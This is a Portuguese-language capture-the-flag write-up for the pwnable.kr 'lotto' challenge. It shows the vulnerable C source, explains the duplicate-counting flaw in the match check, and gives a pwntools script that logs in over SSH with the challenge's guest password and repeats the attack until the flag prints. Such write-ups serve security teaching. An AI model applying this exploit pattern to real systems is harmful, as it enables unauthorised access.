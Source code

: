 # bof
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Operating logic]

## Sobre o Desafio  

Mamãe! Fiz um programa de loteria para meu dever de casa.
você quer jogar?

ssh lotto@pwnable.kr -p2222 (pw:guest)

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php#)

## Solução

O desafio proposto fornece as seguintes informações: uma pessoa criou um jogo de loteria e concedeu acesso a um servidor SSH. Dentro desse servidor, há três arquivos: lotto, lotto.c e flag.

![image](https://github.com/user-attachments/assets/afd67885-fbed-4b0d-92bf-46c9e5cc03a9)

O arquivo lotto.c contém o código-fonte do jogo, responsável pela mecânica da loteria.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

        int i;
        printf("Submit your 6 lotto bytes : ");
        fflush(stdout);

        int r;
        r = read(0, submit, 6);

        printf("Lotto Start!\n");
        //sleep(1);

        // generate lotto numbers
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd==-1){
                printf("error. tell admin\n");
                exit(-1);
        }
        unsigned char lotto[6];
        if(read(fd, lotto, 6) != 6){
                printf("error2. tell admin\n");
                exit(-1);
        }
        for(i=0; i<6; i++){
                lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
        }
        close(fd);

        // calculate lotto score
        int match = 0, j = 0;
        for(i=0; i<6; i++){
                for(j=0; j<6; j++){
                        if(lotto[i] == submit[j]){
                                match++;
                        }
                }
        }

        // win!
        if(match == 6){
                system("/bin/cat flag");
        }
        else{
                printf("bad luck...\n");
        }

}

void help(){
        printf("- nLotto Rule -\n");
        printf("nlotto is consisted with 6 random natural numbers less than 46\n");
        printf("your goal is to match lotto numbers as many as you can\n");
        printf("if you win lottery for *1st place*, you will get reward\n");
        printf("for more details, follow the link below\n");
        printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
        printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

        // menu
        unsigned int menu;

        while(1){

                printf("- Select Menu -\n");
                printf("1. Play Lotto\n");
                printf("2. Help\n");
                printf("3. Exit\n");

                scanf("%d", &menu);

                switch(menu){
                        case 1:
                                play();
                                break;
                        case 2:
                                help();
                                break;
                        case 3:
                                printf("bye\n");
                                return 0;
                        default:
                                printf("invalid menu\n");
                                break;
                }
        }
        return 0;
}
```

O código acima define a função play(), responsável pelo jogo de loteria.

A entrada dos números da loteria é processada por este trecho:

```c
int i;
printf("Submit your 6 lotto bytes : ");
fflush(stdout);
int r;
r = read(0, submit, 6);
```

Aqui, o usuário insere 6 números, armazenados no array submit. O comando read(0, submit, 6) lê 6 bytes da entrada padrão (stdin).

O código gera números aleatórios usando /dev/urandom:

```c
int fd = open("/dev/urandom", O_RDONLY);
if(fd==-1){
        printf("error. tell admin\n");
        exit(-1);
}
```

Os 6 bytes aleatórios são lidos e armazenados no array lotto:

```c
unsigned char lotto[6];
if(read(fd, lotto, 6) != 6){
        printf("error2. tell admin\n");
        exit(-1);
}
```

Os números são então convertidos para valores entre 1 e 45:

```c
for(i=0; i<6; i++){
        lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
}
```

A vulnerabilidade lógica está na verificação dos números correspondentes. O código conta quantas vezes um número do usuário (submit) aparece no array lotto, permitindo contagens repetidas:

```c
int match = 0, j = 0;
for(i=0; i<6; i++){
        for(j=0; j<6; j++){
                if(lotto[i] == submit[j]){
                        match++;
                }
        }
}
```

Caso o usuário acerte 6 números (considerando a falha na contagem), o programa exibe o conteúdo do arquivo flag:

```c
if(match == 6){
        system("/bin/cat flag");
}
else{
        printf("bad luck...\n");
}
```

Se os números não forem todos reconhecidos, a mensagem "bad luck..." é exibida.

Com base nessa falha, é possível aumentar as chances de ganhar. O código a seguir automatiza essa tentativa:

```python
from pwn import *

sh = ssh('lotto', '128.61.240.205', password='guest', port=2222)
p = sh.process('./lotto')

for i in range(1000):
    p.recv()
    p.sendline(b'1')
    p.recv()
    p.sendline(b'------')
    _, ans = p.recvlines(2)
    
    if b"bad" not in ans:
        print(ans.decode())
        break
```

O script Python estabelece uma conexão com o servidor SSH utilizando as credenciais fornecidas e, em seguida, executa o programa lotto. Para explorar a vulnerabilidade identificada, ele repete o processo de jogo mil vezes. A cada iteração, o script envia o número 1 para selecionar a opção de jogar e insere a sequência de caracteres b'------' como entrada, aproveitando a falha na contagem de números repetidos. Após cada tentativa, a resposta do programa é analisada para verificar se a mensagem "bad luck" está presente. Caso essa mensagem não apareça, significa que o exploit funcionou e a flag foi obtida, encerrando o loop imediatamente.

![image](https://github.com/user-attachments/assets/dd178db0-a2e6-4e21-9d64-56ed4e3e150f)

> Assim, obtemos a flag `sorry mom... I FORGOT to check duplicate numbers... :(`
